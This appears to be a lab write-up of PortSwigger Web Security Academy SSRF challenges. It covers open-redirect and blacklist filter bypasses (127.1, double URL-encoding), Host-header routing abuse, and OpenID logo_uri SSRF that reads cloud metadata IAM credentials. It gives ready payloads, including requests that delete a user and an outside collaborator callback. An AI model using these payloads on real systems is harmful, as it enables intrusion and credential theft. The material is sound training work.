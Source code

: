 ### SSRF with filter bypass via open redirection vulnerability
In order to solve the lab, we need to find an open redirect (https://portswigger.net/kb/issues/00500100_open-redirection-reflected) affecting the application to exploit the SSRF vulnerability.
First we can try to access the admin panel passing the URL into the body parameter, but it didn't work since a security check is in place:
<br>![img](./img/51.png)<br>
Clicking the <b>Next product</b> link (bottom-right in the web page) we can notice that an open redirection is present (1), as reported into the server response (2)
<br>![img](./img/52.png)<br>
As confirmation we can try to inject the query string parameter using the value highlighted:
<br>![img](./img/53.png)<br>
Now we can proceed to exploit SSRF vulnerability providing the relative path with the QS parameter, to access the adim panel, into the stockApi parameter (1):<br>
<b>/product/nextProduct?path=http://192.168.0.12:8080/admin</b>. In the response we can find the URL to delete Carlos
<br>![img](./img/54.png)<br>
And to solve the lab you can set the following payload:
```
stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
```

### SSRF via flawed request parsing
In this lab we can take advantage of host header injection, just to recall what is the purpose of this header: https://www.rfc-editor.org/rfc/rfc7230#section-5.4
<br>First let’s try to modify the host value, we can notice that the request is blocked
<br>![img](./img/10.png)<br>
Now we inspect the GET request providing the full path to our LAB URL, deleting the Host header, we notice that we get a valid response:
<br>![img](./img/11.png)<br>
Since we know that the admin panel is locally accessible in the subnet 192.168.0.0/24, we can try to insert a test value in the Host parameter:
<br>![img](./img/12.png)<br>
Here we get a timeout, but we also can notice that the Host value is used to resolve the URI provided into the GET parameter, now we can configure the Intruder to try to brute force the IP value, looking for a 200 or 302 (redirect) response.<br>
Set the payload parameter (1)
<br>![img](./img/13.png)<br>
Then configure the payload as follows:
<br>![img](./img/14.png)<br>
Run the Intruder (in the community it is time throttled):
<br>![img](./img/15.png)<br>
Coming back to the repeater to modify the request according to the redirect:
<br>![img](./img/16.png)<br>
Here we can see that posting a request to the <b>/admin/delete</b> passing the csrf token and the username parameters permit to delete a user. Modify the request according to the information we discovered and we solve the lab (see the picture in the next page). Here there is another very insecure flow, since the csrf token is transmitted even if we are not authenticated as an admin user, of course this scenario must be mitigated through an authentication mechanism. Additional information about csrf token generation can be found at https://portswigger.net/web-security/csrf/tokens 
<br>![img](./img/17.png)<br>

### SSRF with blacklist-based input filter
Here we have a request parameter in the body, <b>stockApi</b>, that it used to verify the articles quantity present in stock:
<br>![img](./img/27.png)<br>
We can try to access the localhost on the server:
<br>![img](./img/28.png)<br>
We can see that there are some security mechanisms to prevent the access to localhost, same happens try to use 127.0.0.1. We can eventually try the not so well-known shorthand notation <b>127.1</b><br>
In this way we are able to bypass the security control that prevents us to access the localhost URL, and we were so lucky that the response indicates which is the URL to access the admin panel 😊
<br>![img](./img/29.png)<br>
Trying to access the admin URL we receive again a security exception, suggesting us that another control is in place:
<br>![img](./img/30.png)<br>
We can try to encode the admin string to bypass this control, a useful resource can be found at: https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass
<br>We can try to perform an URL encoding on the admin string:
<br>![img](./img/31.png)<br>
And we got the following payload: <b>stockApi=http://127.1/%61%64%6d%69%6e</b> 
<br>Again, we got the same security exception’s message, we can try to double URL-encode the string as follows:
<br><b>stockApi=http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65</b>
<br>![img](./img/32.png)<br>
This time it worked, again the we got suggestion how to delete the user carlos, that it’s actual our lab’s goal, using the following payload we can solve the lab:
<br><b>stockApi=http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65/delete?username=carlos</b><br>
(Don’t worry if you get a HTTP 302 error into the response, check the lab web app to verify that it is solved)

### SSRF via OpenID dynamic client registration
<b>OpenID Connect extends the OAuth protocol to provide a dedicated identity and authentication layer</b> that sits on top of the basic OAuth implementation. It adds some simple functionality that enables better support for the authentication use case of OAuth. OAuth was initially intended to be a means of delegating authorizations, not a means to authentication. OpenID Connect provides standardized, identity-related features to make authentication via OAuth work in a more reliable way. 

Unlike basic OAuth, whose <b>scopes are unique to each provider</b>, all OpenID Connect services use an identical set of scopes. In order to use OpenID Connect, the client application must specify the scope openid in the authorization request. Each of these scopes corresponds to read access for a subset of claims - <b>claims refers to the key:value pairs that represent information about the user on the resource server, e.g "family_name":"Simpsons"</b> - about the user that are defined in the OpenID specification. 

The other main addition provided by OpenID Connect is the <b>id_token</b> response type. This returns a JSON web token (JWT) signed with a JSON web signature (JWS). The JWT payload contains a list of claims based on the scope that was initially requested. It also contains information about how and when the user was last authenticated by the OAuth service. The client application can use this to decide whether or not the user has been sufficiently authenticated. 

#### Lab
The lab allows client applications to dynamically register themselves with the OAuth service via a dedicated registration endpoint. Some client-specific data is used in an unsafe way by the OAuth service, which exposes a potential vector for SSRF.

To solve the lab, we have to perform a SSRF attack to access http://169.254.169.254/latest/meta-data/iam/security-credentials/admin and steal the secret access key for the OAuth provider's cloud environment.

You can log in to your own account using the following credentials: wiener:peter.

First of all we can try to access the OpenId configuration file at the oauth server. To find the server name proceed to login using the social media and look into the proxy history, you will see a request similar to the follows

    GET /auth?client_id=mm2rows2xyshg2hlgco08&redirect_uri=https://0a38001e046dfef1c37d749a00630040.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email HTTP/1.1
    Host: oauth-0ad700900440fe10c36e72fb021b00ae.web-security-academy.net

In my lab I can access the config file visiting:

    https://oauth-0ad700900440fe10c36e72fb021b00ae.web-security-academy.net/.well-known/openid-configuration

Find the registration end point as shown below:
<br>![img](./img/172.png)<br>
We can try to register our client application without specify any bearer token (that of course we don't know) to check if open registration is allowed. The minimal request must include at least a <b>redirect_uris</b> array</> containing an arbitrary whitelist of callback URIs for the application:
<br>![img](./img/173.png)<br>

So the registration is open, that's good for us, now we have to find the SSRF vulnerability. Honestly I had to peek to the solution since I was not able to identify the proper injection point :(, that actualy is the client logo image that it is displayed 
<br>![img](./img/174.png)<br>
We know from the OpenId specification that client applications can provide the URL for their logo using the <b>logo_uri</b> property during dynamic registration, let's try to see if we can use this property to perform a SSRF attack. First send the logo requesto to Repeater (in case you are not able to repeat the log-in process access the lab using an private browser's session to intercept the flow).

    GET /client/mm2rows2xyshg2hlgco08/logo HTTP/1.1
    Host: oauth-0ad700900440fe10c36e72fb021b00ae.web-security-academy.net

Then in Repeater modify the previous used request to regestir to the OpenId server as follows:

    POST /reg HTTP/1.1
    Host: oauth-0ad700900440fe10c36e72fb021b00ae.web-security-academy.net
    Content-Type: application/json
    Content-Length: 67

    {
        "redirect_uris" : [
            "https://example.com"
        ],
        "logo_uri" : "http://burpcollaborator.net/"
    }

Here I set the logo uri to point to the collaborator server to test if the request takes place. In the response find the client id value:

    "client_id":"eeVjhXQiHzatLNlvhFx76"

Take the value and replace it with the one present into the GET request for the logo that we have previously intercepted, send the request and
we can see that we were able to access the Collaborator server using the client logo image URI. Knowing that we can change the <b>logo_uri</b> value to point to admin access credential's URI and register again our client app:
<br>![img](./img/175.png)<br>
Now repeat the same step and send the request for the URI logo using the new client id:
<br>![img](./img/176.png)<br>
In the response we can see the admin's secret access key.



#### References
- https://portswigger.net/web-security/oauth/openid 
- https://docs.gitlab.com/ee/integration/openid_connect_provider.html
- https://connect2id.com/products/server/docs/guides/client-registration